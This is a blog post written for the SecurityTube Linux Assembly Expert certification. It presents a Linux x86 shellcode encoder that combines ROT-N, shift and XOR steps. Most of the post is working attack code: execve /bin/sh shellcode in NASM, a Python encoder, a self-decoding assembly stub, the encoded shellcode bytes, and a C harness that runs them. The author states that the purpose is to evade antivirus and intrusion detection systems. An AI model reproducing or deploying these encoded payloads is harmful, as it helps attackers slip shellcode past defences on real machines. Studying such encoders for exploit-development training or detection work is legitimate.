 ```yaml
---
layout: single
title: (Rot-n + Shift-n + Xor-n) Shellcode Encoder - Linux x86
date: 2018-1-22
classes: wide
header:
  teaser: /assets/images/APIHooking/Start.PNG
---
```


Introduction
------------
According to English dictionary, encode is converting something, such as a body of information from one system of communications to another; especially: to convert a message into code. This blog post will combine three basic encoding operations (more on that later) to encode sample shellcode and then decode/execute it to demonstrate the concept.

Encoder
-------
In this section, we’ll create 3-phase encoder that takes one byte of given shellcode at a time, mangle it and then produce an encoded word (2 bytes). The following will describe what each phase will do. Phase I (ROT-N), in this phase we add number N to shellcode byte. Phase II (Shift-N), in this phase we shift `stdout` from phase one to left by N. Phase III (XOR-N), here we just XOR `stdou`t from phase two to get the final encoded word. Before we start working on the encoder, let’s write shellcode that spawn shell to test with.

```nasm
global _start			

section .text

_start:
    ;
    ; execve() code block
    ;
    xor eax,eax       ; initiliaze EAX
    push eax          ; push null terminator
    push 0x68732f2f   ; push /bin//sh
    push 0x6e69622f
    xchg ebx,esp      ; save stack pointer to EBX
    mov al,0xb        ; __NR_execve 11
    int 0x80          ; ping kernel!
```

Let’s compile `execve()` code block and then dump shellcode.

```sh
ihack4falafel@ubuntu:~$ nasm -f elf32 -o sh.o sh.nasm 
ihack4falafel@ubuntu:~$ ld -z execstack -o sh sh.o
ihack4falafel@ubuntu:~$ objdump -d ./sh|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80"
ihack4falafel@ubuntu:~$ 
```

We’ll create python script that takes ROT, Shift, and XOR as user input and print original and encoded shellcode, please note you still need to update the shellcode inside the script to your liking. For this post, we’ll use the one created earlier.  It’s worth noting that the script shift operation number can only be anything between 1 and 8 bits due to `encoded_shellcode` size (word) in the decoder. Also, we’ve added XOR input value to the end of the encoded shellcode as terminator, so if XOR operation in the decoder results in zero that means hey stop decoding.

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = Encoder.py                                                                  #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = [ROT-N + SHL-N + XOR-N] Encoder                                             #
# Date          = 1/19/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python Encoder.py <ROT number> <number of bits to shift> <XOR number>       #
#---------------------------------------------------------------------------------------------#

import sys

# Colors 
#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check ROT, SHL, and XOR input, otherwise print usage, example, and important notes!
if len(sys.argv) < 4:
  print Y+ "Usage               :" + P+  " python Encoder.py <ROT number> <number of bits to shift> <XOR number>  " +W
  print Y+ "Example             :" + P+  " python Encoder.py 13 1 1337                                            " +W
  print Y+ "Notes               :" + P+  " 1) Make sure to update Decoder.nasm with input values.                 " +W
  print    "                     " + P+  " 2) Due to encoded_shellcode size (word) in Decoder.nasm, shift operatio" +W
  print    "                     " + P+  "    n is limited to <1-8> bits. Feel free to upgrade size to DW to allow" +W
  print    "                     " + P+  "    up to 16-bits shift operation.                                      " +W
  print    "                     " + P+  " 3) Encoder.py currently include /bin/sh shellcode as proof of concept. " +W
  print    "                     " + P+  "    Make sure to change it to your desired shellcode.                   " +W
  sys.exit(0)

ROT     = int(sys.argv[1])
nbits   = int(sys.argv[2])
XOR     = int(sys.argv[3])

# initial values   
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80")           # paste your shellcode here
XOR_HEX = hex(XOR)                                                                                     # Encoded shellcode terminator     
encoded_shellcode  = "" 
original_shellcode = ""

# Orginal shellcode formatted
for x in bytearray(shellcode):
  original_shellcode += '0x'
  original_shellcode += '%02x, ' %x

# [ROT-N + SHL-N + XOR-N] encoded shellcode formatted   
for y in bytearray(shellcode):  
  byte = (y + ROT)%256                                                                                  #|-->ROT-N               
  byte = byte << nbits                                                                                  #########|-->SHL-N
  byte = byte ^ XOR                                                                                     #################|-->XOR-N	                                                                                  
  encoded_shellcode += '0x'
  encoded_shellcode += '%02x, ' %byte

# print original and encoded shellcode
print Y+ "Original Shellcode: " + P+ original_shellcode              +W
print Y+ "Encoded Shellcode : " + P+ encoded_shellcode  + Y+ XOR_HEX +W
```

Generate encoded shellcode.

```sh
ihack4falafel@ubuntu:~$ python Encoder.py 13 1 1337
Original Shellcode: 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x87, 0xdc, 0xb0, 0x0b, 0xcd, 0x80, 
Encoded Shellcode : 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
ihack4falafel@ubuntu:~$
```

Decoder
-------
Now comes the decoding part, let’s write code that basically takes encoded shellcode produced earlier , decode it in reverse order and then execute.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to ESI
	
decoder:

    pop esi                      ; store encoded_shellcode pointer in ESI
    push esi                     ; push encoded_shellcode pointer to stack for later execution
    mov edi, esi                 ; move encoded_shellcode pointer to EDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [esi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [edi], al                ; move decoded byte to EDI	
    inc esi                      ; point to the next encoded_shellcode word
    inc esi
    inc edi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [esp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
```

Compile and dump shellcode.

```sh
ihack4falafel@ubuntu:~# nasm -f elf32 -o Decoder.o Decoder.nasm 
ihack4falafel@ubuntu:~# ld -z execstack -o Decoder Decoder.o
ihack4falafel@ubuntu:~# objdump -d ./Decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05"
ihack4falafel@ubuntu:~#
```

Add it to final exploit.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Demo time


[![Encoder/Decoder Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/252202488?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I believe learning shellcode encoding is essential to exploit development, in order to evade modern anti-viruses and/or intrusion detection/prevention systems. Please note all of the code in this post were tested on Ubuntu 12.04.5 LTS. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204)
